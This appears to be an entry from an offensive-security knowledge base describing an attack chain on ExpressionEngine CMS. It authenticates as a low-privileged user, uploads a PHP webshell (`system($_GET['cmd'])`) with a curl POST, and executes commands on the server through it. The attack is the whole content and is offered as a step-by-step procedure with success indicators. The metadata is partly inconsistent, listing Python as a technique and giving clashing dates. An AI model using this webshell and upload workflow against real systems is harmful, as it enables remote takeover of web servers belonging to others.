

---
tags:
  - rce
  - file-upload
  - php
  - expressionengine
  - cms
  - bypass
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/curl-upload-php-file]]'
  - '[[commands/curl-access-php-file]]'
platforms:
  - Web
  - PHP
complexity: medium
procedures:
  - '[[procedures/Low-Privileged-Authentication-in-ExpressionEngine]]'
  - '[[procedures/Bypass-File-Extension-Check-for-Malicious-PHP-Upload]]'
  - '[[procedures/Execute-Uploaded-PHP-for-RCE]]'
step_count: 3
techniques:
  - '[[Valid Accounts]]'
  - '[[Remote File Copy]]'
  - '[[Python]]'
description: >-
  A multi-stage attack exploiting unrestricted file upload in ExpressionEngine
  CMS to achieve remote command execution using low-privileged authentication.
skill_level: intermediate
impact_level: high
id: d5dd3c7c-dd48-47d1-a758-14227c50bad0
created_at: '2025-12-14T05:32:13.237Z'
updated_at: '2025-12-14T05:32:13.237Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Valid Accounts]]'
  - '[[Remote File Copy]]'
  - '[[Python]]'
---
# Low-Privileged RCE in ExpressionEngine via PHP File Upload Bypass

Multi-stage attack chain demonstrating a complete attack workflow exploiting a file upload vulnerability in ExpressionEngine CMS.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser or [[commands/curl-upload-php-file]] for uploads
- Basic knowledge of PHP payloads

### Target Environment

- ExpressionEngine CMS (version vulnerable to file extension bypass)
- Web server with PHP execution enabled
- Access to file upload functionality

### Initial Access Requirements

- Valid low-privileged user credentials
- Network access to the CMS login and upload endpoints
- No prior elevated access needed

## Detailed Attack Procedures

### Step 1: Low-Privileged Authentication
procedure: [[procedures/Low-Privileged-Authentication-in-ExpressionEngine]]

**Objective**: Gain access to the CMS with minimal privileges to reach file upload features.

**Instructions**: Log in using provided credentials via the web interface or API. This establishes a session for subsequent uploads.

**Expected Output**: Successful login redirect to the dashboard, with session cookies or tokens obtained.

**Success Indicators**:
- Access to member control panel
- File upload module visible

### Step 2: Bypass File Extension Check
procedure: [[procedures/Bypass-File-Extension-Check-for-Malicious-PHP-Upload]]

**Objective**: Exploit weak validation to upload a PHP file containing malicious code.

**Instructions**: Prepare a PHP file with a simple webshell payload (e.g., `<?php system($_GET['cmd']); ?>`). Use [[commands/curl-upload-php-file]] to submit it to the upload endpoint, disguising the extension if needed (e.g., double extension like .php.jpg, but exploit allows direct .php).

```bash
curl -X POST -F "userfile=@shell.php" -F "send=Upload" -b "session_cookie=your_session" https://target.com/admin.php?/cp/addons/extensions/upload
```

**Expected Output**: File uploaded successfully, stored in accessible directory like /images/uploads/.

**Success Indicators**:
- Upload confirmation message
- File listed in CMS file manager

### Step 3: Execute Uploaded PHP
procedure: [[procedures/Execute-Uploaded-PHP-for-RCE]]

**Objective**: Trigger the uploaded code to achieve remote command execution on the server.

**Instructions**: Access the uploaded file's URL directly via browser or [[commands/curl-access-php-file]] to execute the payload, passing commands as parameters.

```bash
curl "https://target.com/images/uploads/shell.php?cmd=whoami"
```

**Expected Output**: Output of the executed command, e.g., server username or arbitrary command results.

**Success Indicators**:
- Command output returned in response
- Ability to run system commands like id, ls, etc.

## Attack Chain Summary

### Key Achievements

1. Bypassed authentication restrictions with low privileges
2. Uploaded executable PHP despite extension checks
3. Achieved full RCE leading to server compromise

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]]
- [[Remote File Copy]]
- [[Python]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01*
